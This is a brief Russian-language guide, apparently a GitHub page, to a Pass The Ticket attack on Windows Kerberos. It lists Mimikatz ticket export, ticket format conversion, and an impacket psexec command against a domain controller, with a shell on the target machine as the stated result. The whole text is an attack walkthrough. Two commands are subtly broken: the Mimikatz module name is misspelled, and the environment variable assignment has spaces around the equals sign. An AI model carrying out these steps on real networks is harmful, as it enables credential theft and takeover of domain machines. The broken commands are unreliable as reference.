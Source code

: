 # **Pass The Ticket (PTT)**

**Pass The Ticket (PTT) attack guide**

**Инструкция:**

- С помощью Mimikatz экспортируем тикеты.

`mimikatz # securlsa::tickets /export`

- Для удобства дальнейшей эксплуатации конвертируем в другой формат.

`python3 ticketConverter.py <kirbi_file> <output_file>`

- Получаем удаленный доступ к консоли атакуемой машины.

`# export KRB5CCNAME = <ccache_file>`

`# python3 psexec.py <domain.net>/<username>@<ip_of_dc>`


**Результат:**

Шелл на атакуемой машине.
